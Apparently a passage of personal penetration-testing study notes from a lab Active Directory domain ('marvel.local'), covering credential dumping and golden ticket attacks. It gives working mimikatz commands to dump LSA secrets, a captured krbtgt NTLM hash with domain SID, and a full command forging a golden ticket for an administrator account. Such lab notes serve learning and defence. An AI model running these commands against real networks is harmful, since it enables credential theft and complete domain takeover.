 ![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_15_4/93.jpg)

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_15_4/94.jpg)

> download the sam and dump it 
> meterpreter hashdump
> hashdump.py etc

```ps
lsadump::lsa /patch
```

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_15_4/95.jpg)

> we can dump lsa from here 

### LSA = local security authority

- Protected authority in windows subsystem
- save logon ,authentication session to the local computer

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_15_4/96.jpg)

> ntds.dit also contain all the credentials

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_15_4/97.jpg)

1. you can take in offline and crack it ; how many passwords are cracked

---
---
## Golden ticket attacks

- krbtgtr - ticket granting ticket account
- that allow us to generate tickets

>If we have hash of an account we can generate TGT 

- WE CAN ACCESS ANY SERVICE OR RESOURCE IN THE SYSTEM using the ticket granting service

- If we have a golden ticket we have entire access to the domain

```ps
lsadump::lsa /inject /name:krbtgt
```

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_15_4/98.jpg)

Domain : MARVEL / S-1-5-21-1123897398-1166595296-588635312

 * Primary
    NTLM : 4aa8c321b82e1eebb29e759049f903fe
	
```ps
kerberos::golden /User:Administratorfake /domain:marvel.local /sid:S-1-5-21-1123897398-1166595296-588635312  /krbtgt:4aa8c321b82e1eebb29e759049f903fe /id:500 /ptt
 ```
 